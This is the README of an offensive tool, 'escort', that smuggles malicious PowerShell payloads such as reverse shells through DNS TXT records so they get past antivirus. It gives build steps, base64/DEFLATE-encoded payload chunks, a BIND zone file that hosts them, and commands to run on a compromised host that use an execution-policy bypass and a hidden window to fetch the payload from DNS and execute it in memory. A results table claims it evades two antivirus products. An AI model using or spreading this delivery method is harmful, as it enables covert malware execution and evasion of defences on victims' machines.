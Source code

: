 # Escort

![](./escort.jpg)

`escort` is an experiment at using DNS TXT records for transmitting malicious payloads to bypass Anti Virus detection. It currently only supports PowerShell payloads (ie reverse shells with powershell) however ideally I will expand this to other potential payload systems. It consists of taking your payload, compressing with DEFLATE and base64 encoding it. Because not all DNS servers are equal, some servers may return DNS record values not in the order they are declared in. For example CoreDNS using the BIND zone file format will serve results in the order they are declared in, but AWS Route53 may or may not do this. As such we mark the beginning of the base64 encoded with a segment identifier. We use the `|` character which is not a valid base64 encoded character to mark the end of the segment identifier and the beginning of the base64 encoded segment. Escort uses this information to recombine the bsae64 segments before decoding them. After decoding we decompress the output and execute it with `Invoke-Expression` cmdlet to avoid writing the script to disk

# Usage

To showcase usage an example payload is included in `payload.txt`

```shell
$> git clone https://github.com/bonedaddy/escort
$> cd escort
$> go build
$> ./escort --input.file payload.txt compress
0|TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnI
1|Y7bDZZ4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8
```
You then want to add these values to your DNS host in order. For example in BIND zone files you would add this as follows:

```bind
$ORIGIN example.org.
@	3600 IN	SOA sns.dns.icann.org. noc.dns.icann.org. (
				2017042745 ; serial
				7200       ; refresh (2 hours)
				3600       ; retry (1 hour)
				1209600    ; expire (2 weeks)
				3600       ; minimum (1 hour)
				)

	3600 IN NS a.iana-servers.net.
	3600 IN NS b.iana-servers.net.

test4   IN TXT   "0|TJFda/JAEIXv318xF3mbXUyWJH5QDRHa0BahqDRCL8SLmAxma4xiRjSo/71svurVDsOZc56Z1aJUYkbgwRTP5mz9gxFBUOSEOzFFEsE+2iLlYuHP/VLJdHvoCHvwLGx7KBzb0Y1er8tdLacjhjvwoLYUH0hB2WPcXa4LwuVqpak3Bw8sIQb9frd/+3+17u45kSkypknwah/xhWHMKrkBlgFVKT4x21DCOZgZgsWvrhaHFIIH7IHfXBQHnI
test4   IN TXT   "1|Y7bDZZ4IXES+BPJm9ZtI9ltuE1nsw2TYoKkWoRzOJ1GG2VqcQLVAnO+MmGG8xOZFZj8CB11NrtXAf0eQA6dIAdzjEX85AS1RyDXo8UhMp9SYoLa6TVaFQilmivCon9BbQHFt9HSchaH8My2rq5Tqt9T095wvjdbf7ET/c5Mv7vNwAA//8"
```

On the compromised host you would run `escort.ps1` using one of the following:

```
$> .\escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
$> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File escort.ps1 -host_name test4.example.org -dns_server 127.0.0.1
```

This will query the host `test4.example.org` for TXT records and use that to construct the payload.

# Caveats

* Due to the usage of DEFLATE the powershell script you are compressing and base64 encoding must be a minimum of 45 characters in length, otherwise you should skip the deflate process as this will just increase the size of your payload, however this will require modifying `escort.ps1` as it expects a base64 encoded DEFLATE compressed payload.
* This may not evade all antiviruses, known AV solutions I have tested against are listed below


| AV Name | Successfully Bypasses |
|---------|-----------------------|
| Avira Free | Yes |
| MalwareBytes Free | Yes |
# Notes

Brotli offers the best compression of data, however it doesn't appear to be widely supported on Windows unless .NET version >=4.5 is installed so it is temporarily not being used.